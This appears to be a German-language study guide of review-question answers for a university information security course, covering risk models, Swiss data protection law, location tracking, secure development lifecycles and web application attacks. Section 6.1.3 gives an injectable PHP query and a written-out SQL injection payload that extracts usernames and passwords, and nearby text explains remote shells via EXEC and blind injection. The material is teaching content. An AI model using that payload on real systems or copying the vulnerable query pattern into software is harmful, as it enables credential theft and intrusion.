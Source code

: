 =======================================
FS14 InfSi3 Repetitionsfragen Antworten
=======================================

Dieses Dokument wird vorzu erweitert. Ergänzungen und Antworten sind herzlich willkommen.
Repetitionsfragen: https://github.com/moonline/HSR.modules.InfSi3/blob/master/RepetitionQuestions.rst


.. contents:: Inhaltsverzeichnis


1 Information Security Management
=================================

**1.0.1. Thread Model**

.. image:: img/rq-1.0.1.1.jpg
   :width: 50 %


**1.0.2. Effiziente Massnahmen**

Mit organisatorischen Massnahmen (M2 Organisationsmanagement).


**1.0.3. Risikomodell**

::

	Risiko = Schaden ◆ Eintrittswahrscheinlichkeit
	       = Schaden ◆ Bedrohung ◆ Verletzlichkeit der Schutzmassnahmen
	
	Es muss eine Bedrohung existieren, damit ein Risiko da ist!


.. image:: img/rq-1.0.3.1.jpg
   :width: 50 %


**1.0.4. Grund für Sicherheitsmassnahmen**

Unternehmen fürchten sich vor Gesetzesverstössen


1.1 Anforderungen an Informationssicherheit
-------------------------------------------

**1.1.1 Schadensindikatoren**

.. figure:: img/1.3.jpg

   Der Indikator gibt an, um was für einen Schaden es sich handelt. Die Skala definiert, in welcher Grössenordnung Bagatellen, Unfälle, Störfälle und Katastrophen für die jeweiligen Schäden liegen.


**1.1.2. Gesetzliche Anforderungen**

* Datenschutz (Bearbeiten von Personendaten)
* Vorschriften für Finanzinstitute
* Fernmeldegesetz
* Allgemeines Controlling


**1.1.3. Gesetze & Artikel**

DSG
	Datenschutzgesetz, regelt Bearbeitung von Personendaten, Schutz von Systemen gegen bestimmte Risiken
Stgb Art. 179
	Vorsätzlicher Missbrauch von Fernmeldeanlagen, Unbefugtes Beschaffen von Personendaten
HIPAA / TARMED
	Schutz von Gesundheitdaten
BankG Art 47
	Bankgeheimnis, Umgang mit Finanzdaten / Kundendaten
VSB 08
	Vereinbarung zwischen den Bankiervereinigung und Banken über Sorgfaltspflicht
PCI
	Payment Card Industry Data Security Standard Anforderungen, Schutz von Daten und Hardware
Fernmeldegesetz
	Regelt Telekommunikationsdienstleistungen sowie den Schutz übertragener Daten
SOX
	Allgemeines Controlling für US-börsenkotierte Unternehmen
FISA 1978
	Regelt Vorgehen bei Aufklärung und Spionageabwehr un den USA
PATRICOT ACT 2001
	Anti Terror Bestimungen zur vereinfachten Überwachung von Bürgern


1.2 Threads
-----------

**1.2.1. Bedrohung, Motivation, Mittel**

Die Bedrohung steigt sowohl mit zunehmender Motivation und zunehmenden Mitteln (Zeit/Finanzen) und den technischen Fähigkeiten.

Jedermann
	Ausprobieren, wenig Know How, Schaden gering, geringe Motivation
IT-Freak
	Persönliche Profilierung, gutes Know How, Schaden gering
Professioneller Hacker / Hacktivismus
	Gezielte Angriffe, gutes Know How, persönlicher oder politischer Gewinn
Spione
	Gezielte, mit viel Mitteln gestützte Angriffe, grosses Know How, Nationale Interesse, Schaden gross
	

**1.2.2. NSA**

* Nationale Sicherheitsagentur mit weltweiten Standorten
* Verarbeitet und überwacht riesige Datenmengen
* 30'000 MA / 8Mia Jahresbudget


**1.2.3. Quantum**

Computer werden hardware oder Softwareseitig infiziert und anschliessend Daten zur NSA umgeleitet.
Z.B. Leitet die NSA Trafic an Internet Routern um, um sich in ein login einzuhängen und das Target zu kompromitieren.



2 Location Based Services
=========================

**2.0.1. Typen von LSB**

Map/Navigation
	* Standort
	* Bewegung
Local Information/Search
	* Standort
	* User generated content
Tracker
	* Standort
	* Bewegung
Special (Friend finder, Augmented Reality, Gaming, ...)
	* Standort


**2.0.2. Standort bezogene Dienste (Beispiele)**

* Google Maps -> Aktuelle Position, ermittelt über IP, GPS, Wlan, Mobilfunk
* Trafic Info -> Aktuelle Position/Verkehrsweg
* Wetter App -> Aktuelle Position
* SBB Fahrplan (indirekt)
* Google Now
* Google Buzz (Around Me)
* Google Glass


**2.0.3. Datenschutzgesetz**

DSG Art3 Begriffe
	Personendaten
		Daten, die sich auf eine Person beziehen
	Besonders Schützenswerte Personendaten
		* Religiöse/politische Ausrichtung
		* Gesundheitsdaten
		* Soziale Hilfe
		* Strafverfolgung
	Persönlichkeitsprofil
		Erlaubt die Beurteilung der Persönlichkeit
DSG Art4 Grundsätze
	Bearbeiten von Personendaten
		Nur für vorgesehen Zweck verwenden
	Beschaffung von PD
		Zweck und Zweck ihrer Bearbeitung muss ersichtlich sein
	Einwilligung zur Bearbeitung
		* Betroffener muss angemessen Informiert werden
		* ausdrückliche Einwilligung für besonders Schützenswerte Daten
DSG Art5 Datensicherheit
	Personendaten müssen angemessen (organisatorisch/technisch) geschützt werden
DSG Art6 Auskunfstrecht
	Betroffene haben das Recht auf Auskunft über die Bearbeitung ihrer Daten
DSG Art14 Tracking/Persönlichkeitsprofile
	* Betroffene Person muss informiert werden
	* Angegeben werden müssen: 
		* Inhaber der Datensammlung
		* Zweck
		* Kategorien der Empfänger bei Datenweitergabe
		
**2.0.4. Google Analytics/Facebook Social Buttons auf Webseiten**

a) Gesammelte Informationen
	Google
		* Aufrufzeitpunkt, Dauer des Besuches jeder Seite
		* Ungefährer Standort, Land, Region, Ort, Provider, Down-/Uploadrate
		* Betriebsystem, Sprache, eingestellte Lokalisierung, Bildschirmauflösung, Gerätetyp
		* Browser Footprint, Unterstützte Plugins/API's
		* Neuer Benutzer oder wiederkehrender
	Facebook
		* Selbe Informationen wie Google Analytics +/-
		* Identität (z.B: Facebook login)
		* Mit Identität verknüpfte Informationen (Freunde, Familie, Vorlieben)
		* Was dem Benutzer gefällt oder nicht (Like)
	Anwaltskanzlei
		* Selbe Informationen wie Google Analytics
		
b) Zu Beachten
	* Facebook verfügt über Persönlichkeitsprofile der Benutzer -> DSG Art.14
	* Die Anwaltskanzlei muss in der Lage sein, Benutzern Auskunft darüber zu geben, welche Daten gesammelt wurden
	
	
2.1 Methoden zur Lokalisierung von Objekten
-------------------------------------------

**2.1.1. Passive Standortpreisgabe Beispiele**

* Online Fahrplan
* Google Maps
* Navi
* Wetter Apps


**2.1.2. Standortbekanntgabe bei Browsern**

Der Browser schickt alles, was er hat:

* Sichtbare WLAN Netzwerke
* IP


**2.1.3. Lokationsdaten**

Lokationsdaten, die mit einer Person verknüpft sind (auch IP Adressen) sind in CH Personendaten.


**2.1.4. IP Lokalisierung**

Über IP wird zugeteilter Provider ermittelt -> Zugangsknoten von ISP ist genauste mögliche Location.


**2.1.5. IP Adresse als Personendatum**

Da die IP mit der Identität eines Benutzers verknüpft ist sie das und unterliegt damit dem DSG.


**2.1.6. Cell Tower Localization**

* Provider weiss, in welcher Zelle sich ein Benutzer befindet
* Handy sieht jedoch mehrere Antennen und kann über einen Antennenstandortdatenbank mittels Triangulation ziemlich genau seine Position orten


**2.1.7. GSM Netz**

Ein Mobiltelefon gibt folgende Daten in einem GSM Netz preis:

* Identität, TeilnehmeriID+Verschlüsselungskeys auf SIM (GSM besitzt eine Authentisierung)
* Zelle (Standort auf weniger als eine Zelle genau da mit den Signallaufzeiten gearbeitet wird)
	* Location Area ID
	* Cell ID
	* Timing Advance
* Die weltweit eindeutige TeilnehmeriID wird auf der Luftschnittstelle verborgen und stattdessen eine temporäre verwendet, um Mithörer diese nicht preiszugeben


**2.1.8. Wlan Ortung**

* Nutzer gibt seine Mac Adresse Preis (Weltweit eindeutig)
* Ortung erfolgt über WLAN Datenbanken

**2.1.9. Beacons**

* Kurz- und Langdistanz RFID/Bluetooth Tags Zur Identifikation von Fahrzeugen (langdistanz) oder Personen in Gebäuden (Kurzdistanz)
* Smartphones verbinden sich mit Beacons an Messen


**2.1.10. E-Plate Long Range Tags**

Aktive RFID Tags in Kennzeichen, auslesbar auch 100m Entfernung und bis 320 Km/h


**2.1.11. Genauigkeit der Lokalisierung**

* Bluetooth/Beacons Kurzdistanz: Bis 2m
* GPS: Bis 15m, mit Korrekturdaten bis im cm Bereich


**2.1.12. GSP zur Flottenüberwachung**

Der Arbeitgeber überwacht damit den Mitarbeiter und trackt diesen Kontinuierlich. Der MA muss darüber informiert werden und sein Einverständnis geben.


**2.1.13. bewusste Bekanntgabe von Lokationsdaten**

Der Benutzer tätigt eine Handlung, mit der er seine Position bekannt gibt. Z.B:

* Hochladen eines Bildes mit GPS Daten
* Friends Finder (Standort Sharen)
* Facebook Places (An einem Ort "einchecken")
* Flicker Foto Upload: Standort auf Karte einzeichnen


**2.1.14. unbewusste Bekanntgabe von Lokationsdaten**

Die Bekanntgabe des Standortes ist ein Nebeneffekt eines genutzten Dienstes, z.B.:

* Wetter Apps
* Activity Tracker
* Google Suche (Browser Footprint, IP)
* CDN Abrufe
* Proxy


**2.1.15. Google**

Google hat ziemliche Umfangreiche Informationen über Benutzer, da sie auf sehr vielen Webseiten mit Google Analytics drinhangen und sehr viele Dienst betreiben, auf denen User breitwillig Informationenpreisgeben:

* Surfverhalten / Vorlieben (Suche)
* Freunde / Familie (Google+)
* Standort (Google Maps, Google Buzz, Google Glass, Autonome Fahrzeuge)
* Reisen (Flugvergleiche, Fahrpläne)
* Informationen über benutzes Gerät sowie online-Zeiten (Schalfverhalten)


**2.1.16. Browser Fingerprint**

* Browser / Device / BS / Auflösung / Sprache / Lokalisierung
* Standort / ISP
* Unterstützte JS Schnittstellen / Aktivierte Plugins / Addons / Media Support
* Browsereinstellungen wie "Do Not Track" / JS ein/aus / Cookie settings
* Local Storage / Flash Storage

Die Kombination dieser Merkmale ist einmahlig und damit der Benutzer eindeutig zuortbar/idenitifizierbar.

**2.1.17. AGPS**

In AGPS, the Network Operator deploys an AGPS server. These AGPS servers download the orbital information from the satellite and store it in the database. Download speed for client is much faster of cellular network that from Satellite at 50 Bit/s it is also possible that Satellite goes out of sight and download needs to be started again.


**2.1.18. GPS Alternativen**

* Glonass: russisch, 24 Satelliten
* Galileo: Europäisch, bestehend aus 30 Satelliten 
* Beidou Navigation Satellite System: Chinesisch, begrenzt auf chinesisches Gebiet


**2.1.19. GPS Daten Korrektur**

Durch Basisstation (Standort ist berrechnet als const und auf Laufbahn). Liegt Satellite direkt über Basis Station kann eine Kalibration des Softwares stattfinden.

	
**2.1.20. Minimale Anzahl Satteliten für Triangulation**

* Mind. 3 (trigo..) je mehr desto präziser wird die Messung 
* Bei GPS sind immer vier sichtbar.



3 Software Security
===================

**3.0.1. Potentiell gefährliche Funktionen**

* Auffinden mit Blacklist (Tool)
* Massnahme gegen erneuten Fehler später: Tests


**3.0.2. Connectivity, Extensibility, Complexity**

Connectivity
	Jede Software ist mittlerweile über das Netz verbunden und somit einem grossen Angriffsrisiko ausgesetzt -> müsste sich entsprechend verteidigen
Extensibility
	Software selbst ist ausgereift und sicher aber Erweiterungen bringen wieder Schwachstellen ein
Complexity
	Zunehmende Komplexität erhöht die Fehlerwahrscheinlichkeit und somit die Wahrscheinlichkeit, das ein Security Problem vorliegt.
	

**3.0.3. Bugs, Flaws, Defects**

Bugs
	* Fehler im Code (Falschbenutzung von Schnittstellen)
	* Implementation Level Fehler
	* Maschinell auffindbar
	* z.B. Buffer Overflow, Race Condition, Unsave system call
Flaws
	* Falscher Programmfluss, Nicht behandeln von Spezialfällen
	* Design Level Fehler
	* Mit Code Analyse Tools nicht auffindbar
	* z.B: Method Overriding, error handling, type save confusion
Defect
	Überbegriff für Bugs und Flaws
	

**3.0.4. Bug oder Flaw?**


1) Rückgabewert von Read() ignored
   -> Bug
2) Verwendung von strlen() auf einem Wert, der nicht garantiert mit einem 0-Byte terminiert
   -> Bug
3) Speicherung von Benutzerpasswörtern als Klartext in der Datenbank
   -> Flaw
4) Passwort des Users mit memcmp mit Passwort in der DB vergleichen. Wenn der Rückgabewert von memcmp != 0 wird der Zugriff geblockt (memcamp("", password) gibt auch 0 zurück).
   -> Bug (Ja nach Definition könnte es auch ein Flaw sein)


**3.0.5. Software Security Basics**

* Risk management
	* Business and technical risk
	* Risk priorisation
	* Mitigation strategies
* Best practices
	* Code Review
	* Risk analysis
	* Penetration testing
* Knowledge
	* Prescriptive Knowledge(Principles/Guidelines)
	* Diagnostics (Vulnerabilitis, Exploits, Attacks)
	* Historical risks
	
	
**3.0.6. Risiko**

Setzt sich zusammen aus Schaden (Schadensausmass) und Eintrittswahrscheinlichkeit (Verletzlichkeiten, Bedrohung)

.. image:: img/rq-1.0.3.1.jpg
   :width: 50 %


Es sollte so viel Geld in Security investiert werden, das die Gesammtkosten (Schaden + Massnahmen) minimal sind.


**3.0.7a. Best Practises**

1) Code Review
2) Risiko Analysen
3) Penetration Testing


**3.0.7b. Massnahmen & Artefakte**

i) Requirements & Use Cases
	* 7 Abuse Cases
	* 4 Security Requirements
	* 3 Risk Analysis
ii) Architecture & Design
	* 3 Risk Analysis
iii) Test Plans
	* 6 Risk based Security Testing
iv) Code
	* 2 Code Reviews
v) Tests & Test Results
	* 5 Penetration testing
	* 3 Risk Analysis
vi) Feedback from the Field
	* 5 Penetration testing
	* 1 Security Operation
	
	
**3.0.8. Barry Boehms Cost of Change Law**

Mit jeder Phase im SW-Entstehungsprozess steigen die Kosten, wobei sie exponentiell steigen.
Bugs, die während der Entwicklung gefunden werden, sind um Faktoren günstiger, als Bugs, die beim Kunden gefixt werdne müssen.


**3.0.9. Software Security Knowledge**

* Prescriptive Knowledge
	* Principles
	* Guidelines
	* Rules
* Diagnostic Knowledge
	* Vulnerabilitis
	* Attacks
	* Exploits
* Historical Knowledge
	* Historical risks
	

**3.0.10. Security Knowledge Architecture**

.. figure:: img/3.8.jpg
   :width: 75 %

   Exploits sind erkannte Verletzlichkeiten. Aus diesen ergeben sich Angriffsmuster und Historische Risikodaten. Zum Verhindern von Verletzlichkeiten kommen Prinzipien (Guidelines, Rules) zum Einsatz.


**3.0.11 Code Review Tools**

1) Code Scanners: Scannen den Code nach Patterns (Regex)
2) Advanced Source Code Analysis Tools: Führen den Code aus und analysieren den Code Fluss. Diese finden auch falsch Verwendete Schnittstellen etc. die nicht auf den ersten Blick ersichtlich sind.


**3.0.12. Architectural Risk Analysis**

* Analyse über die Attenresistenz (Checklisten zum Finden von bekannten Problemen)
* Mehrdeutigkeitsanalyse (Unklarheiten in den Architekturdokumentationen)
* Schwächenanalyse (Analyse von Abhängigkeiten von externen Tools und Frameworks und dadurch entstehende Schwächen)



4 Microsoft Security Livecylce
==============================

**4.0.1. Continious Process Improvement & Accountability**

Continious Process Improvement
	* Ständiger Verbesserungsprozess des Security Livecylce
		* Vier Levels: Basic, Standardized, Advanced, Dynamic
	* Disciplines (In jeder Discipline wird Kontinuierlich versucht, ein höheres Level zu erreichen)
		* Schulungen, Policy, organisatorische Fähigkeiten
		* Anforderungen & Design
		* Implementierung
		* Verifizierung
		* Release & Response
Accountability
	* Definierte Verantwortlichkeiten für den Fall eines Vorfalls
	* Wenn was passiert, schnell rausfinden, was passiert ist (Release and Response)
	* Zugriff für alle Beteiligten (Public Repo)
	* Im Falle eines Vorfalles soll schnell und richtig reagiert werden
	
	
**4.0.2. Security Livecylce**

::

	.-------------------+-------------------------------------------------------------.
	| 1) Training       | Core Security training                                      |
	'---------------------------------------v-----------------------------------------'
	.-------------------+-------------------------------------------------------------.
	| 2) Requirements   | * Establish Security Requirements                           |
	|                   | '-> Experten einbeziehen                                    |
	|                   | * Create Quality gates / Bug bars                           |
	|                   | '-> Produkt erst freigeben, wenn Bug/w Rate unterschritten  |
	|                   | * Security & Privacy Risk Assessment (R. minimieren/tragen) |
	'---------------------------------------v-----------------------------------------'
	.-------------------+-------------------------------------------------------------.
	| 3) Design         | * Establish Design Requirements                             |
	|                   | * Analyse Attack Surface                                    |
	|                   | '-> z.B. einhalten von "Least Priviledge"                   |
	|                   | * Threat Modelling                                          |
	|                   | '-> Checklisten/Regeln (z.B. BSI Handbuch)                  |
	'---------------------------------------v-----------------------------------------'
	.-------------------+-------------------------------------------------------------.
	| 4) Implementation | * Use Aprooved Tools (z.B. Code analysis tools)             |
	|                   | * Deprecate Unsafe Functions                                |
	|                   | * Static Analysis (Bugs finden)                             |
	'---------------------------------------v-----------------------------------------'
	.-------------------+-------------------------------------------------------------.
	| 5) Verification   | * Dynamic Analysis                                          |
	|                   | '-> Flaws finden, korrekte Implementierung überprüfen       |
	|                   | * Fuzzy Testing (Mit randoom input fluten)                  |
	|                   | * Attack Surface Review                                     |
	'---------------------------------------v-----------------------------------------'
	.-------------------+-------------------------------------------------------------.
	| 6) Release        | * Incident Response Plan                                    |
	|                   | * Final Security Review                                     |
	|                   | * Release Archive                                           |
	'---------------------------------------v-----------------------------------------'
	.-------------------+-------------------------------------------------------------.
	| 7) Response       | Execute Incident Response Plan                              |
	|                   | '-> Verfügbarkeit von Personen für Ernstfall                |
	'---------------------------------------------------------------------------------'


**4.0.3. Begriffe**

Quality gates / bug bars
	Gefundene Bugs/Woche muss best. Rate unterschreiten, damit das Release freigegeben wird
Risk Assessment
	Risiken minimieren, kleine Risiken tragen
Analyse Attack Surface
	Angriffsmöglichkeiten untersuchen, einhalten von Regeln wie z.B. "Least Priviledge"
Threat Modelling
	Mit Checklisten/Regeln Angriffsmöglichkeiten untersuchen (z.B. BSI Handbuch)
Fuzzy Testing
	Fluten mit Randoom Input
Dynamic Analysis
	Verhalten analysieren, macht das Programm, was es soll
Static Analyis
	Bugs finden
Response Plan
	Verantwirtlichkeiten, Verfügbarkeiten von Personen für Ernstfall
	

	
5 Web Application Security
==========================

**5.0.1. Web Applications**

* Über das Netz erreichbare Services (Zugriff von überall)
* Meisst Client/Server Architektur, Multi Tier Architektur
* Universellen Client (Browser), der nicht kontrolliert werden kann
* Direkter Zugriff zu Backend Data


**5.0.2. Web Application Architecture**

::

	.----------------------------------------------------------.
	|                          Client                          |
	'----------------------------------------------------------'
	                             ^ |
	                             | | Internet
	                             | |
	.----------------------------------------------------------.
	|              Server Network / Company Network            |
	|                            | |                           |
	|                            | v                           |
	| .------------------------------------------------------. |
	| |              Router, Firewall, Switching             | |
	| '------------------------------------------------------' |
	|                            ^ |                           |
	|                            | v                           |
	| .----------------..------------------..----------------. |
	| |                ||    Web Servers   ||                | |
	| '----------------''------------------''----------------' |
	|                             |                            |
	| .------------------------------------------------------. |
	| |                Web Application Server                | |
	| '------------------------------------------------------' |
	|          .------------------'------------------.         |
	| .---------------. .------------------. .---------------. |
	| |               |-| Database Servers |-|               | |
	| '---------------' '------------------' '---------------' |
	'----------------------------------------------------------'


**5.0.3. Cookies**

* Textdateien, die im Browser abgelegt werden (Speicherung von Requestübergreifender Information Clientseitig)
* Nur Scripts der Domain, die das Cookie gesetzt haben, dürfen es auch wieder lesen

.. code-block:: HTTP

	// scheme ame=value; name2=value2
	Cookie: LSID=DQAAAK…Eaem_vYg; Path=/accounts; Expires=Wed, 13 Jan 2021 22:23:01 GMT; Secure; HttpOnly; Domain=hsr.ch;
	
	
**5.0.4. Session Management**

1) Benutzer verbindet sich mit Server, loggt sich ein falls nötig
2) Server erzeugt eindeutige, nicht erratbare Session ID
3) Server speichert Session zu ID bei sich ab und schickt Session ID an Client
4) Client sendet Session ID bei jedem Request wieder mit, sodass der Server weiss, wer er ist

::

	                   Client              Web Server           App Server           DB Server
	                  
	Application Session  |<---------------------------------------->|
	
	HTTP Session         |<------------------->|
	
	Internal Session                           |<------------------>|
	
	Db Session                                                      |<------------------>|
	
	TCP Session         |<------------------->|<------------------->|<------------------>|
	

**5.0.5. Arten von Cookies**

Session Cookie
	* Speichert Session ID
	* Nicht persistent (Browser Memory)
	* Keine "expire time"
Persistent Cookie
	* In File abgelegt
	* Expire time
Secure Cookie
	* Darf nur über SSL/TLS Verbindungen transportiert werden
3rd Party Cookie
	* Wurde nicht von der ursprünglichen Seite gesetzt
HTTP Only Cookie
	* Nur durch HTTP auslesbar (Nicht durch JS)

**Supercookie**

* z.B. Flash Cookies
* Schwieriger zu finden und entfernen, Cookie-Remove Mechanismen von Browser finden sie nicht
* Werden an unterschiedlichen Orten gespeichert, z.B. in einem durch ein Flash Plugin angelegten File
* Erweiterte Funktionen, wie z.B. reguläre Cookies reaktivieren/verlängern


**5.0.6. E-Tags**

* Information, ob sich Seite beim Browser im Cache befunden hatte (Caching Kontrolle)
* Kann als Seitencookie gentzt werden, da zu jeder aufgerufenen Seite eine eindeutige ID gespeichert wird


**5.0.7. Cookie read/write access**

* Same Origin Policy: Nur Scripts vom gleichen Ursprung dürfen ein Cookie lesen


**5.0.8. Same Origin Policy**

* Port+Host+Protocoll stimmen überrein
* IP =! URL
* ABER gleiche Domain mit unterschiedlichen IP's (mehrere Web-Server) = Same Origin


**5.0.9. 3rd Party Cookie Data Mining**

1) Geladene Seite bindet über Skript ein Werbebanner eines Werbeanbieters ein und übermittelt Info über Domain (Damit die Werbeanbieter den Zugriff einem Werbekunden zuordnen können)
	.. code-block:: HTML
	
		<script>
			// create banner image from remote
			var bannerImage = document.createElement('img');
			bannerImage.outerHTML = '<img src="http://www.adtech.com/ad/?page=20min" />';
			
			document.getElementByTagName('body')[0].appendChild(bannerImage);
		</scipt>
		
2) Browser lädt eingebundenes Element. Dadurch erhält der Werbeanbierter die gleichen Informationen über den Client, die der Anbieter der ursprünglichen Seite auch hat (Browser, BS, Auflösung, Plugins, IP, Location, ...). Durch einen Parameter im Aufruf des Elements erfährt der Werbeanbieter, wessen von seinen Werbekunden (im Beispiel 20min.ch) er den Aufruf zuordnen muss.
3) Der Werbeanbieter setzt ein Cookie oder Supercookie um die Client beim nächsten Mal wiedererkennen zu können. Diese Wiedererkennung funktioniert aber auch über den Browser Footprint.
4) Wird die Werbung dieses Werbeanbieters von ganz vielen Seiten eingebunden (wie z.B. Google Analytics), so kann der Werbeanbierter Clients über Webseiten hinweg verfolgen und Persönlichkeitsprofile erstellen.


**5.0.10. P3P**

* Privacy Policy
* Deklaration der Seite, was mit welchen Daten geschieht
* Matcht die Policy nicht, wird die Seite nicht geladen
* Problem: Selbstdeklaration


**5.0.11. Sandboxing**

* Code wird in einem Container ausgeführt, aus dem er nicht ausbrechen kann
* Code hat beschränkten Ressourcen und API Zugriff
* Dem Code wird grundsätzlich nicht vertraut


**5.0.12. Rechte und Möglichkeiten**

JavaScript
	* Ohne Warnung
		* Remote Verbindungen
		* Video/Audio
		* Local Storage
		* Local DB
	* Mit Nachfrage
		* GeoLocation
		* File Access
		* Camera/Microphone Access

Flash
	* Remote Verbindungen
	* File Access
	* Camera/Microphone
ActiveX
	* Remote Verbindungen
	* File Access
Java Plugin
	* Remote Verbindungen
	* File Access


5.1 OWASP
---------

**5.1.1. OWASP**

Open Web App Security Project


**5.1.2. Häufigste Vulnerabilitis**

1) Injection
2) Broken Authentication and Session Management
3) Cross Site Scripting


**5.1.3. Injection Flaws**

* Einschleusen von Code über Benutzereingaben
* Aämmtliche Benutzereingaben müssen validiert werden
	* Whitelisting (allow none, allow some)
	* Blacklisting (allow all, disallow some)
	* Escaping (Replace bad data)
	
* Massnahmen gegen Injection
	* Review
	* Avoid external params
	* limit priviledges of app
	* validate ALL input
	* use system functions instead of own (e.g. prepared statements)


**5.1.4. Broken Authentication & Session Management**

* Umgehen von Authentication
* Login attacks (user/pw enumeration)
* Stehlen von Session/Session fixation
* Fehlende Verschlüsselung/Signaturen -> Modifikation von Session/Login Daten (z.B. Modifikation von SAML assertions, umleitungen)


Massnahmen:

* IMMER Cookies benutzen, Session ID nie in der URL oder post übergeben, Secure Cookies nutzen
* User auf allen Tiers authentifizieren (Extern Session ID/intern mappen)
* keine eigenen Krypto Implementationen
* lange Ursername/PW etablieren, failed logins loggen
* Passwörter nicht Klartext speichern oder übermitteln
* PW Recovery Mechanismen sicher umsetzen


**5.1.5. XSS**

Cross-Site Scripting
	Ausführen von eingeschleustem Javascript Code auf einem andern Client
Arten
	Stored
		* Der Code wird serverseitig persistiert und mit der Seite ausgeliefert.
		* Bsp: Ein Angreifer schreibt ein Snippet in ein Gästebuch. Jeder, der die Einträge anschaut, führt das eingebettete Script aus
	Reflected
		* Ein Angreifer schreibt ein Snippet in ein Eingabefeld, das sofort andern Benutzern dargestellt wird
		* Bsp: Search History
Gegenmassnahmen
	* Escaping of output: Steuerzeichen für Scripts Escapen (<,>,',")
	* validate input (reject, delete or replace "dangerious" characters or tags)
	* CSP (Content Security policy)


6 Web Application Security 2
============================

6.1 Injection
-------------

**6.1.1. Port 80 & Firewalls**

Gegen Angriffe auf Application Level über Port 80 nützt eine Firewall nichts. Wenn sie Port 80 blockieren würde, würde aller Verkehr geblockt.


**6.1.2. Angriffe / Layer**

Die unteren Layer sind mittlerweile sehr sicher implementiert und Schwachstellen ausgemerzt. Auf Application Level hingegen werden es mit jeder Applikation, die am Netz hängt neue.


**6.1.3. SQL Injection**

Der Angreifer bricht mit einem Steuerzeichen aus dem Kontext (Value) aus und kann dann fast beliebig Kommandos hnzufügen.

.. code-block:: php

	// search for employee to list them
	$employeeName = $_POST["searchName"];
	$statement = "SELECT name, image FROM employees WHERE name LIKE '%"+$employeeName+"%'";
	
	
Ein Angreifer beendet durch einfügen eines ' das Statement, fügt ein beliebiges Kommando hinzu und kommentiert den Rest aus:

::

	Hans%' UNION SELECT username, password FROM employee WHERE '' == '
	

Dadurch entsteht das folgende Statement, das noch die Benutzernamen und Passwörter der Angestellten ausgibt:

.. code-block:: sql

	SELECT name, image FROM employees WHERE name LIKE '%Hans%' UNION SELECT username, password FROM employee WHERE '' == ''
	
	
**6.1.4. Technische Grundlage**

Siehe Beispiel Vorherige Frage.

Der Angreifer bricht mit ' oder -- aus dem Value-Kontext in den Steuerungskontext aus.


**6.1.5. EXEC**

* Der Angreifer kann alles ausführen, was der DB User auch kann. Kann er z.B. mit EXEC eine Remote Shell aufmachen, kann er beliebig Schadcode nachladen und asführen.
* Zudem kann er Verbindungen aufmachen intern, die nur lokale User können (z.B. Application Server angreifen)


**6.1.6. Blind / Time-Based SQL Injection**

Blind SQL Injection
	Um herauszufinden ob überhaupt Injection möglich ist: illegales Statement produzieren -> Wenn ein Fehler ausgegeben wird, hat die Injection funktioniert, auch wenn ansonsten über eine Injection kein Output ausgegeben werden kann.
Time Based
	An das Statement ein Command anhängen, das länger läuft (z.B. Benchmark). Funktioniert die Injection, verlängert sich die Antwortzeit des Servers -> Wenn keine Blind Injection möglich ist, weil keine Fehlermeldungen ausgegeben werden.
	

**6.1.7. User Defined Functions**

